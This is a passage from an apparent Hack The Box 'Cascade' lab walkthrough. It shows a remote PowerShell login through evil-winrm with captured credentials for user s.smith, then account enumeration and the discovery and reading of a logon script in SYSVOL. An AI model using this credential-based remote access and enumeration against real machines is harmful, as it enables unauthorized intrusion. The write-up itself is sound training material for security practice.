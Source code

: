 ```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u s.smith -p 'sT333ve2'            

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

## Shell as s.smith

### Enumeration

```PowerShell
*Evil-WinRM* PS C:\Users\s.smith\Desktop> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Let's check out that logon script, `MapAuditDrive.vbs`

```PowerShell
*Evil-WinRM* PS C:\> Get-ChildItem -Path "C:\" -Recurse -Filter "MapAuditDrive.vbs"

	Directory: C:\Windows\SYSVOL\sysvol\cascade.local\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs

*Evil-WinRM* PS C:\Windows\SYSVOL\sysvol\cascade.local\scripts> cat MapAuditDrive.vbs
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```